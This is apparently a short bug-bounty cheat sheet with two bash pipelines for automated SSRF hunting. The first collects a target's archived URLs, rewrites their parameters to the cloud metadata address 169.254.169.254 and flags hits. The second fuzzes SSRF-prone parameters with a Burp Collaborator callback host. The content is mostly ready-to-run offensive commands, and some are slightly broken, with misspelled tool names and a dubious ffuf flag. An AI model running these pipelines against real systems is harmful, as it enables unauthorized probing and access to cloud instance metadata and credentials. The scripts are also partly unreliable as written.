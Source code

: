 
## Accessing SSRF metadata with automation by just using curl and bash

### 1

**Command for getting URLs**
```bash
waybackurl target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u |anew | httpx -silent | qsreplace 'http://169.254.169.254/latest/meta-data/hostname' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```
### 2
**Find Blind SSRF with automation by just using curl and bash**
```bash
waybaclurl target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u | anew | httpx -silent | tee all-urls.txt
cat all-urls.txt | gf ssrf | tee ssrf.txt

# Finally we will use ffuf and burp collaboraotr client
cat ssrf.txt | qsreplace "YOUR BURP URL" | tee ssrf-fuzz.txt
ffuf -c ssrf-fuzz.txt -u FUZZ

```

